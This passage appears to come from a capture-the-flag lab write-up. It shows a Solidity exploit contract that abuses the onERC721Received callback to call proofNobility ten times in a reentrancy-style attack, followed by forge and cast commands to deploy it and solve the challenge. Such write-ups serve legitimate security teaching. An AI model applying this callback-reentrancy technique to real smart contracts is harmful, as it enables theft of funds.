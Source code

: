 ```solidity
    function onERC721Received(
        address,
        address,
        uint256,
        bytes calldata
    ) external override returns (bytes4) {
        if (count != 10){
            count++;
            admin.proofNobility{value: 1 ether}();
        }
        return bytes4(keccak256("onERC721Received(address,address,uint256,bytes)"));
    }

}
```
&nbsp;  
I will explain a little bit about the *onERC721Received()*. Like what I've said before, it checks if the receiver is capable of receiving an ERC721 transfer, especially if it's a smart contract. This function ensures that it can return the correct selector of *onERC721Received(address,address,uint256,bytes)*, that's why as long as we return the correct value, we can put a logic before the return, making it controllable, just like implementing a logic on *receive()* when we are doing reentrancy. Here is how we can deploy and solve the contract. &nbsp;  
&nbsp;  
```bash
// Checking Our Balance Since we need at least 10 Ether
// We have 12 Ether
cast balance -r $RPC_URL $WALLET_ADDR

// Deploying the Exploit
forge create src/symbol-of-noble/$EXPLOIT_FILE:$EXPLOIT -r $RPC_URL --private-key $PK --constructor-args $SETUP_ADDR --value 11ether

// Exploiting Administrator
cast send -r $RPC_URL --private-key $PK $EXPLOIT_ADDR "exploit()"

// Calling the isTrueNoble()
cast send -r $RPC_URL --private-key $PK $EXPLOIT_ADDR "proofSolve()"
```
&nbsp;   
Running the command above should've solved the lab!
